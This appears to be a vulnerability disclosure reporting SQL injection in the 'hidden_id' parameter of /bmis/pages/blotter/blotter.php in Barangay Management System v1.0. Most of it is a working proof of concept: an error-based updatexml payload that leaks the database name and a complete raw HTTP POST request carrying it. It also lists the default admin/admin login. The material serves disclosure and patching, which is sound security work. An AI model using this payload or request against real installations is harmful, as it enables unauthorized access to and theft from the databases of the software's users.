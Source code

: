 # Barangay Management System v1.0 by itsourcecode.com has SQL injection

Vulnerability Author: Jiang Qian

The decompression password for the source file is itsourcecode.

Login account: admin/admin (Super Admin account)

vendors: https://itsourcecode.com/free-projects/php-project/barangay-management-system-project-in-php-with-source-code/

Vulnerability File: /bmis/pages/blotter/blotter.php

Vulnerability location: /bmis/pages/blotter/blotter.php,hidden_id

[+] Payload: hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> hidden_id

```sql
POST /bmis/pages/blotter/blotter.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/bmis/pages/blotter/blotter.php
Cookie: sessions=aj0k5o11d743ingah9kp1b0ejntrqer6; PHPSESSID=fbu82ocu8kd37b5b20uqq71a35; _ga=GA1.1.1382961971.1655097107; _gid=GA1.1.804632123.1655097107
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 329

hidden_id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&txt_edit_cname=&txt_edit_cage=1&txt_edit_cadd=1&txt_edit_ccontact=1&txt_edit_pname=&txt_edit_page=1&txt_edit_padd=1&txt_edit_pcontact=1&txt_edit_complaint=1&ddl_edit_acttaken=1st+Option&ddl_edit_stat=Solved&txt_edit_location=1&btn_save=Save&table_length=10
```

![image](https://user-images.githubusercontent.com/54017627/173301744-520c64e5-2e12-4849-b5b9-28f435d39a41.png)

